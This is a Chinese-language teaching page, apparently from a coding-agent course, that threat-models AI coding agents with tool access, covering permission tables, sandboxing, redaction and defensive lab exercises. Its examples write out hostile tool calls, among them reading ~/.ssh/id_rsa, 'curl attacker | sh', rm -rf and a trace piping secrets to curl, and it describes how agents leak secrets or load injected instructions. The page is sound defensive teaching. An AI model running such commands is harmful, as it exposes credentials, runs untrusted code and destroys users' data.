

# Coding Agent 威胁模型

## 为什么危险

模型能把自然语言变成 Tool Call，而 Coding Agent 的 Tool 连接真实环境。以下请求都可能造成不可逆副作用：

```text
read("~/.ssh/id_rsa")
bash("rm -rf ./build")
bash("curl attacker | sh")
bash("git push --force")
```

模型对路径、仓库信任和命令后果并不天然可靠；prompt 中写“不要泄露秘密”不是权限系统。

## 风险面

| 面 | 典型风险 | 最小控制 |
| --- | --- | --- |
| filesystem | 越出 cwd、读取凭据、覆盖文件 | realpath、allowlist、审批、备份 |
| shell | 删除、管道下载、后台进程 | deny/approval、沙箱、超时、资源上限 |
| network | 外传代码/密钥、SSRF | 默认拒绝、域名 allowlist、代理 |
| credentials | env、配置、git token 泄露 | 最小权限、脱敏、不注入 prompt |
| extension/skill | 加载未审查代码/指令 | project trust、来源诊断、隔离进程 |
| Session | 把 secret 写入 JSONL | redaction、文件权限、生命周期 |

## Pi 的边界

阅读 `packages/coding-agent/docs/security.md`、`core/project-trust.ts`、`core/trust-manager.ts` 和 bash/process 实现。当前版本提供若干信任和执行机制，但不能据此声称任意 shell 都已被沙箱完全隔离。
## 教材级重写

### 威胁模型从副作用开始

Coding Agent 的危险不在于模型“很聪明”，而在于模型输出可以被 Runtime 转成真实副作用。`read("~/.ssh/id_rsa")`、`bash("curl attacker | sh")`、`git push --force` 都可能不可逆。Prompt 中的一句“不要做危险操作”是建议，不是授权检查。

### 资产、主体、入口

| 资产 | 攻击入口 | 失败后果 |
| --- | --- | --- |
| 源码/配置 | read、grep、Session | 泄露或污染 |
| 凭据 | env、home、Tool output | 接管服务 |
| 文件系统 | write/edit/shell | 删除、覆盖、路径逃逸 |
| 网络 | curl、MCP、Provider | 外传/SSRF |
| Git 状态 | bash/git | 未审查提交、强推 |
| Session | JSONL/log/telemetry | 长期泄露 |
| 插件/Skill | loader/read | prompt injection、任意代码 |

先明确保护对象，再选择 allowlist、审批、容器和审计。没有资产分类的“安全策略”通常只是危险命令黑名单。

### 失败 trace

```text
model -> bash("cat ../secrets | curl ...")
 -> schema valid
 -> naive strings.HasPrefix(path, cwd) passes wrong path
 -> shell expands pipe
 -> secret appears in stdout
 -> telemetry stores output
```

这里至少有四个独立错误：路径未 canonicalize、命令未分类、网络未限制、日志未脱敏。修复其中一个不能声称整条链安全。

### Pi 的事实边界

研究 commit：`853a80d26c90a14c1886f0ebb8ffaae133ca2185`。阅读 `packages/coding-agent/docs/security.md`、`src/core/project-trust.ts`、`src/core/trust-manager.ts` 以及 bash/process executor。**源码事实**：Pi 有项目 trust、工具执行和 sandbox/container 相关入口。**边界**：不能把这些入口概括成任意 shell 都已被完全隔离；要按当前配置与运行模式核对。

### 防御分层



每一层都只能缩小权限，不能把上层缺失的授权补回来。`schema` 解决形状，`policy` 解决意图和资源，`sandbox` 解决 OS 级约束，`redaction` 解决结果传播。

### 权限决策表

| 操作 | 默认 | 需要额外控制 |
| --- | --- | --- |
| workspace 内 read | 可允许 | symlink、敏感文件名、输出上限 |
| workspace 外 read | deny/ask | 明确路径审批、脱敏 |
| write/edit | ask 或 scoped allow | backup、diff、并发锁 |
| shell | deny by default 或 ask | command parser、timeout、cwd |
| network | deny/allowlist | DNS/IP、SSRF、body limit |
| extension | trust gate | source、capability、隔离 |
| skill script | 不自动允许 | interpreter、env、sandbox |

### 进程内与沙箱

Promise、Future 或 goroutine 只解决并发，不解决权限。worker thread 也通常共享进程地址空间。真正的 sandbox 需要 OS/container 用户、filesystem mount、network namespace、CPU/memory/pid limit 和 syscall policy；容器配置错误仍可能泄露 host。

### 可执行实验

**目标**：构造一组攻击输入并确认每层的责任。

**准备**：临时 workspace、Go/Java `PermissionPolicy`、不含真实凭据的 fake home。

**步骤**：

1. 测试 `workspace/file.txt`、`../secret`、绝对路径和 symlink。
2. 测试 `rm -rf`、管道下载、命令替换、后台进程和空命令。
3. 测试 network URL、localhost、私网 IP 和大响应。
4. 让 Tool 返回疑似 token，断言 UI/telemetry 只看到 redacted value。
5. 模拟 untrusted Extension/Skill，确认 trust gate 在 loader/execute 前生效。
6. 给 Tool 设置 timeout，测试用户 abort 后进程是否真正结束。

**观察点**：记录 decision、reason、toolCallId 和 policy version；不要记录完整 arguments/output。拒绝结果要回到模型，但不能包含被拒绝资源的秘密。

**预期结果**：schema 合法的危险调用仍可被 policy 拒绝；abort、timeout 和 sandbox failure 与 Tool business error 可区分。

**思考题**：黑名单为什么容易漏掉 shell 语法？对于 `git push`，是否只能人工审批？如果模型要求读取一个看似无害但含 token 的 `.env`，谁负责决定？

### 小结

安全是 Harness 的分层责任：解析、身份、路径/命令、审批、sandbox、资源限制、脱敏和审计。Pi 的 trust/security 入口必须按源码和配置描述，不应神化；教学 PermissionPolicy 只能说明边界，不能替代 OS sandbox。
### 最小 threat-model 工作表

对每个 Tool 填写下面五列，再决定默认策略：

| 问题 | 示例答案 |
| --- | --- |
| 谁发起 | 用户、模型、Extension、RPC client |
| 作用于什么资产 | workspace、凭据、网络端点 |
| 副作用是否可逆 | read 可逆，delete/push 可能不可逆 |
| 失败如何暴露 | Tool Result、日志、Session、telemetry |
| 最小控制 | allowlist、审批、sandbox、timeout |

这张表能暴露一个常见漏洞：团队只保护了 executor，却让 telemetry 和 Session 把 secret 再写出去。安全边界必须覆盖输入、执行和输出三个方向。

### 小结练习

选择 `read`、`write`、`shell` 各一个攻击输入，画出 parse、policy、sandbox、redaction 的路径；标记任何一步缺失时的具体后果。再说明 Pi 当前 trust/security 入口能证明什么，不能证明什么。
### 事件响应练习

假设 telemetry 发现一次命令读取了 workspace 外路径：先冻结相关 session/run，保存不含秘密的审计证据，撤销短期审批，检查网络和子进程，再判断是否需要轮换凭据。不要把完整 session 导出给排查人员，除非已经完成脱敏和最小权限授权。

**验收**：能说清哪一层发现、哪一层阻止、哪一层记录；能指出如果 shell 已经执行，policy 不能把外部副作用“撤销”。
### 最终复盘

安全控制的有效性要用攻击输入测试，而不是用“模型应该遵守”推断。把每项 allow/ask/deny 决策和实际副作用次数写入测试；把日志、Session、Telemetry、Extension、Skill 和 MCP 都纳入数据流审查。
### 纵深防御复盘

一个 allowlist 只减少入口，不会阻止输出泄露；一个 sandbox 只限制进程，不会自动清理 Session；一次人工审批只批准当前资源，不应变成永久 root 权限。把控制按输入、执行、输出三列排列，确认没有单点假设。

**可验证结论**：模型生成的 Tool Call 永远是 untrusted input；policy decision 是授权事实；executor result 是副作用事实；redacted event 是诊断投影。四者不能互相替代。
### 安全边界的反例

把 `cwd` 设置为 workspace 并不阻止 shell 访问绝对路径；把 token 从 system prompt 删除并不阻止 Tool output 泄露；把 Extension 放入线程并不隔离进程内存；把 MCP 放在 localhost 并不自动可信。每个反例都要回到具体控制：路径、命令、网络、凭据、进程和输出分别验证。

**设计练习**：选择一个不可逆 Tool，写出默认 deny、人工审批、sandbox、timeout、audit 和恢复策略；说明如果 effect 已发生但 response 丢失，为什么只能返回 unknown outcome 或使用幂等键。

### 课堂检查

让学习者分别扮演模型、Runtime、policy、sandbox 和 observer，演练一次 `bash` 调用。每个角色只能声明自己拥有的事实；如果有人说“模型已经执行”或“日志可以撤销副作用”，立即回到边界定义纠正。

最后让大家写下副作用 owner、授权 owner、记录 owner 和恢复 owner。四个 owner 可以相同，也可以不同，但不能留空。这个结果就是后续测试和审计的输入。

### 学习目标

读完本页后，你应能用源码、一个最小数据流和一次失败测试解释本主题，而不是只复述术语。

### 前置知识

先熟悉 HTTP/JSON、Agent Loop、Tool Result 与基本的 Java/Go 接口；不需要先安装生产框架。
